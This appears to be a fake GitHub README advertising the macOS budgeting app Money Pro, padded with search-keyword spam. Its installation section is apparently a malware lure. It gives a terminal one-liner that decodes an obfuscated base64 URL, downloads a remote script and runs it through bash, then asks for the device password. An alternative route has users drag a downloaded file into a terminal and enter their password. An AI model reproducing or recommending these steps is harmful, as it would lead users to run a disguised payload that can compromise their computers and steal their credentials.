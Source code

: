 # 💸 Money Pro — Personal Finance & Budgeting App for macOS

Money Pro is the ultimate finance and budget planner app for macOS. Whether you're managing personal expenses or small business finances, Money Pro gives you everything you need — from budgets and bills to powerful analytics and beautiful UI.

[![🚀 Download Money Pro 🟣](https://img.shields.io/badge/Download-Money%20Pro-blueviolet)](https://shuziktobehuman.github.io/huja/MoneyPro)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Money Pro?

Money Pro is an advanced money management tool for macOS. It allows you to plan budgets, track expenses, monitor bills, and analyze your financial behavior across all your Apple devices.

Whether you're a freelancer, a household budgeter, or a small business owner, Money Pro helps you stay on top of your finances with ease and elegance.

---

## ✨ Features

- 💰 Expense & income tracking with custom categories  
- 🧾 Bill planning with calendar view  
- 📊 Budget planner with progress indicators  
- 🔄 Recurring transactions & automation  
- 🌐 Sync across devices via iCloud  
- 🔒 Secure with Face ID and Touch ID support  
- 📈 Detailed reports and graphs  
- 🛠️ Attach receipts and notes to transactions  

---

## 🖼️ Preview

![Money Pro Screenshot 1](https://money.pro/img/preambule_money_pro.jpg)  
![Money Pro Screenshot 2](https://money.pro/img/moneypro_windows_budget.jpg)

---

## 📌 Tags

money pro, moneyguidepro, emoney pro, money guy pro,  
moneyguide pro cost, pro money, money pro app, money pro mac, money pro,  
monefy pro, money manager premium, money pro for mac, my money pro,  
moneyguidepro pricing, money guard pro, emoney pro pricing, envestnet moneyguidepro,  
money pro software, money pro online, money for macbook pro, money pro personal finance,  
1money pro, active money pro, app money pro, get money pro, i money pro,  
i money pro loan app, ibear llc, ibear money pro, imoney pro, income cash pro
